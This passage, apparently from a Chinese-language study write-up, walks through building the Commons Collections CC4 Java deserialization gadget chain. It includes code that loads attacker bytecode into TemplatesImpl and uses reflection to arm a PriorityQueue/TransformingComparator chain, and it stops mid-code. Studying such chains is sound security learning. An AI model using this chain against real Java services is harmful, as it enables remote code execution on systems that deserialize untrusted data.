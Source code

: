 ```java
    }
}
```

这次在执行序列化时计算器就被弹出了，和URLDNS链一样利用链在序列化时就被走了一遍。

这里是在priorityQueue.add(1);时触发的利用链

![image-20240708135212518](https://s2.loli.net/2024/07/08/MvDiwOuB5nQ9cxZ.png)

防止这种情况就是在add之前把链断掉，add之后序列化之前再通过反射把利用链写好。

```java
public class cc4 {
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ss.ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        //ChainedTransformer
        //PriorityQueue
        //CC3
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1)); //改为ConstantTransformer,把利用链断掉
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(1);

        Class transformingComparatorClass = transformingComparator.getClass();            //通过反射把利用链改回
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
```